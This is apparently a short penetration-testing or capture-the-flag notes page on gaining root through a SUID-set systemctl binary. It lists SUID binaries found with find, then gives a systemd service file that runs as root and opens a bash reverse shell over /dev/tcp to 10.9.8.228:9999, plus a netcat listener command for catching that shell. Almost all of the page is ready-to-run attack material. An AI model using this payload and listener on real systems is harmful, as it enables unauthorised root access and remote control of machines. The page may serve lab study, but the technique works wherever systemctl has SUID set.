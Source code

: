 {% tabs %}
{% tab title="Find Files with SUID Set" %}
```text
$ cd /
$ find . -perm /4000 -print 2>/dev/null
./usr/bin/newuidmap
./usr/bin/chfn
./usr/bin/newgidmap
./usr/bin/sudo
./usr/bin/chsh
./usr/bin/passwd
./usr/bin/pkexec
./usr/bin/newgrp
./usr/bin/gpasswd
./usr/bin/at
./usr/lib/snapd/snap-confine
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/lib/openssh/ssh-keysign
./usr/lib/eject/dmcrypt-get-device
./usr/lib/squid/pinger
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
./bin/su
./bin/ntfs-3g
./bin/mount
./bin/ping6
./bin/umount
./bin/systemctl
./bin/ping
./bin/fusermount
./sbin/mount.cifs
```
{% endtab %}

{% tab title="Payload for /bin/systemctl \(root.service\)" %}
```
[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.9.8.228/9999 0>&1'

[Install]
WantedBy=multi-user.target
```
{% endtab %}

{% tab title="Nc local listener" %}
```
nc -lvnp 9999
```
{% endtab %}
